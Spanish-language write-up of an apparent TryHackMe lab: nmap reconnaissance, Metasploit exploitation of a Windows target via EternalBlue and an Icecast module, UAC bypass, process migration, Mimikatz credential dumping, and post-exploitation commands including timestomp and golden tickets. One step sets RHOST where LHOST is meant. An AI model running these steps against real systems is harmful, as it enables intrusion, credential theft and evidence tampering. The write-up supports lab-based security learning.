Como ya tenemos la IP no hace falta realizar un reconocimiento de HOST.

- IP victima `10.10.65.129`

## Comprobar si tengo conexión
```
ping -c 1 10.10.65.129
```
<p align="center">
    
</p>

# Reconocimiento

## NMAP
```
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.65.129 -oN basic_scan
```
<p align="center">
    
</p>

# ENUMERACIÓN

## NMAP
```
nmap -p135,139,445,3389,5357,8000,49152,49153,49154,49158,49159,49160 -sVC --min-rate 5000 -n -Pn -vvv 10.10.65.129 -oN ports_scan
```
<p align="center">
    
</p>
<p align="center">
    
</p>
<p align="center">
    
</p>
<p align="center">
    
</p>

### PUERTO 445 - SAMBA
- Pruebo si es vulnerable a la vulnerabilidad de **eternal blue**. Los pasos que hay que seguir son:
```
nmap --script "vuln and safe" -n -Pn -p445 10.10.65.129 -oN vulnScan
```
<p align="center">
    
</p>
es vulnerable.
#### 1- INICIAR METASPLOIT
```
msfconsole -q
```
<p align="center">
    
</p>

####  2-BUSCAR EXPLOIT
```
search eternalblue
```
<p align="center">
    
</p>

# EXPLOTACIÓN

#### 4- USO EL EXPLOIT
- Voy a usar el exploit con el ID 24
```
use 0
# ó
use exploit/windows/smb/ms17_010_eternalblue
```
<p align="center">
    
</p>

#### 5- VER/CAMBAIR OPCIONES
- Veo las opciones que tiene
```
show options
```
<p align="center">
    
</p>

- Tengo que introducir la IP de la máquina victima y cambiar mi IP, porque al estar en TRYHACME me da otro rango la IP `10.2.37.7`. NO HAY QUE PONERSE A LA ESCUCHA. Me da directamente un `meterpreter`. 
```
set RHOST 10.10.65.129
```
```
set RHOST 10.2.37.7
```
```
show options
```
<p align="center">
    
</p>

#### 6- Ejecutar el exploit
```
run
```
<p align="center">
    
</p>
Ahora hemos recibido un shell, pero no podemos hacer mucho con él. Por lo tanto, ahora ponemos en segundo plano la sesión (1.ª) y actualizamos a un shell de meterpreter


Para poner el `meterpreter` en segundo plano usamos
```
CTRL + Z
```
<p align="center">
    
</p>

Si quiero ver la sesión del `meterpreter`
```
sessions -l
```
<p align="center">
    
</p>


Para volver al `meterpreter`
```
sessions 2
```
<p align="center">
    
</p>
Ya estamos dentro.


### PUERTO 3389 - RDP

En la web [cvedetails](https://www.cvedetails.com/cve) , busco `icecast` y me da el impacto de la vulnerabilidad y el nombre de la vulnerabilidad `CVE-2004-1561`

Teniendo el nombre de la vulnerabilidad, puedo buscarlo en `metasploit`.

#### METASPLOIT
Inicio `metasploit` y busco la vulnerabilidad
```
msfconsole -q
```
```
search icecast
# ó
search CVE-2004-1561
```
<p align="center">
    
</p>

Uso el módulo encontrado
```
use 0
```
<p align="center">
    
</p>

Veo las opciones
```
show options
```

Cambio las opciones que necesito, como el RHOST que es la dirección de la máquina victima, y reviso el LHOST comprobando que sea la misma que la interfaz de red `tun0`, en este caso tengo que cambiarla, y reviso las opciones.
```
set RHOST 10.10.65.129
set LHOST 10.2.37.7
show options
```
<p align="center">
    
</p>

Ejecutamos el exploit
```
run
#ó
exploit
```
<p align="center">
    
</p>
Ya estamos dentro de la máquina vicitma


# ESCALADA DE PRIVILEGIOS

Después de hacer un reconocimiento del sistema sabiendo algo de su arquitectura(*comando en las preguntas más abajo*); realicemos un poco más de reconocimiento. Si bien esto no funciona muy bien en máquinas x64, ejecutemos el siguiente comando.
```
run post/multi/recon/local_exploit_suggester
```
_Nota: El_ `_post/multi/recon/local_exploit_suggester_`_módulo se utiliza para sugerir posibles ataques de escalada de privilegios locales en un sistema comprometido._
<p align="center">
    
</p>
Al ejecutar el sugerente de exploits local, se obtendrán varios resultados para posibles exploits de escalada.


Usaré el primer exploit `exploit/windows/local/bypassuac_eventvwr`. También puedo usar `exploit/windows/local/tokenmagic`.
Tengo que poner el `meterpreter` en segundo plano y desde `msfconsole` ejecutar:
```
use exploit/windows/local/bypassuac_eventvwr
```
<p align="center">
    
</p>

Veo las opciones
```
show options
```
<p align="center">
    
</p>

Cambio las opciones, tengo que introducir la sesión del `meterpreter` que está en segundo plano y comprobara si la IP de la mi máquina KALI es la IP correspondiente, en este caso, no corresponde, por lo que la cambio también.
```
sessions -l # Para saber la ID de la sesión en segundo plano
set SESSION ID_session
set LHOST 10.2.37.7
show options
```
<p align="center">
    
</p>

Ejecuto el exploit
```
run
#ó
exploit
```
<p align="center">
    
</p>
Ahora podemos verificar que hemos ampliado los permisos mediante el comando `getprivs`
```
getprivs
```
<p align="center">
    
</p>

Antes de continuar, debemos pasar a un proceso que realmente tenga los permisos que necesitamos para interactuar con el servicio lsass, el servicio responsable de la autenticación dentro de Windows. Primero, enumeremos los procesos que utilizan el comando `ps`. Tenga en cuenta que podemos ver los procesos que ejecuta NT AUTHORITY\SYSTEM ya que hemos escalado los permisos (aunque nuestro proceso no los tenga).
```
ps
```
<p align="center">
    
</p>

Para poder interactuar con lsass, necesitamos estar "viviendo" en un proceso que tenga la misma arquitectura que el servicio lsass (x64 en el caso de esta máquina) y un proceso que tenga los mismos permisos que lsass. El servicio de cola de impresión cumple perfectamente con nuestras necesidades para esto y se reiniciará si falla. ¿Cómo se llama el servicio de impresión?

En esta pregunta se menciona el término "vivir en" un proceso. A menudo, cuando tomamos el control de un programa en ejecución, cargamos otra biblioteca compartida en el programa (una dll) que incluye nuestro código malicioso. A partir de esto, podemos generar un nuevo subproceso que aloja nuestro shell.
<p align="center">
    
</p>

Migre a este proceso ahora con el comando 
```
migrate -N PROCESS_NAME
```
```
migrate -N spoolsv.exe
```
<p align="center">
    
</p>

Comprobemos qué usuario somos ahora con el comando `getuid`.
```
getuid
```
<p align="center">
    
</p>

##### ENUMERACIÓN VICITIMA - SAQUEO - LOOTING
`Mimikatz` es una herramienta de volcado de contraseñas bastante infame que es increíblemente útil. Cárgala ahora usando el comando `load kiwi` (Kiwi es la versión actualizada de Mimikatz)
```
load kiwi
```
<p align="center">
    
</p>

Cargar kiwi en nuestra sesión de meterpreter expandirá nuestro menú de ayuda, eche un vistazo a la sección recién agregada del menú de ayuda ahora a través del comando `help`.

Pero el comando que permite obtener todas las credenciales es `creds_all`
```
creds_all
```
<p align="center">
    
</p>


# POST-EXPLOTACIÓN


<hr>
###### PREGUNTAS  QUE PUEDEN AYUDARME AL RECONOCIMIENTO DE WINDOWS 

**2.** ¿Qué usuario estaba ejecutando ese proceso de Icecast?
```
getuid
```
<p align="center">
    
</p>

**3.** ¿Qué versión de Windows tiene el sistema?
```
sysinfo
```
<p align="center">
    
</p>

**4.**¿Qué permiso de la lista nos permite tomar propiedad de los archivos?
```
getprivs
```
<p align="center">
    
</p>

**5.**¿Qué comando nos permite volcar todos los hashes de contraseñas almacenados en el sistema?
```
hashdump
```
<p align="center">
    
</p>

**6.** Si bien es más útil cuando se interactúa con una máquina en uso, ¿qué comando nos permite observar el escritorio del usuario remoto en tiempo real?
```
screenshare
```

**7.** ¿Qué tal si quisiéramos grabar desde un micrófono conectado al sistema?
```
record_mic
```

**8.** Para complicar los esfuerzos forenses, podemos modificar las marcas de tiempo de los archivos en el sistema. ¿Qué comando nos permite hacer esto?
```
timestomp
```

**9.** Mimikatz nos permite crear lo que se denomina un «boleto dorado», que nos permite autenticarnos en cualquier lugar con facilidad. ¿Qué comando nos permite hacer esto?

Los ataques de ticket dorado son una función dentro de Mimikatz que abusa de un componente de Kerberos (el sistema de autenticación en dominios Windows), el ticket de concesión de tickets. En resumen, los ataques de ticket dorado nos permiten mantener la persistencia y autenticarnos como cualquier usuario del dominio.
```
golden_ticket_create
```


<hr>